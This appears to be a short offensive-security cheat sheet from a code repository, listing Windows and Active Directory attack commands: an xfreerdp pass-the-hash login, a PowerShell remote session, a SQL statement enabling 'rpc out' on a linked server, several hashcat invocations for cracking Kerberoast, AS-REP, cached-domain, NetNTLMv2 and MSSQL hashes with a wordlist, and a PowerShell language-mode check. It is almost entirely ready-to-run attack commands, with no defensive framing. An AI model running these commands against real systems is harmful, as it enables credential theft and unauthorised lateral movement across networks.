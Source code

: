 
# xfreerdp
## xfreerdp pth
```
xfreerdp /u:<username> /d:<domain> /pth:<nthash> /v:<ip>
```

## PowerShell PSSession
```
Enter-PSSession -Computername <hostname>
```

## RPCOut (ErrorMsg: is not configured for RPC)
```
EXEC sp_serveroption '<ServerName>', 'rpc out', 'true';
```

# Hashcat
## Hashcat SPN (`$krb5tgs$23$*user$realm$test/spn*$633...`)
```
hashcat -m 13100 --force -a 0 <hashfile> /usr/share/wordlists/rockyou.txt
```

## Hashcat Cracking mscash (e.g. $DCC2$10240#spot#3407..)
```
hashcat -m2100 '<mscash>' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

## Hashcat NetNTLMv2 (e.g. SMB Auth)
```
hashcat -m 5600 <hashfile> /usr/share/wordlists/rockyou.txt --force
```

## Hashcat Cracking AS-REP (ASREPRoast, PreauthNotRequired)
```
hashcat -m 18200 --force -a 0 <hashfile> /usr/share/wordlists/rockyou.txt
```

## Hashcat MSSQL (2012, 2014) 0x02....
```
hashcat -m 1731 --force -a 0 <hashfile> /usr/share/wordlists/rockyou.txt
```

# PowerShell
## Recon LanguageMode
```
$ExecutionContext.SessionState.LanguageMode
```
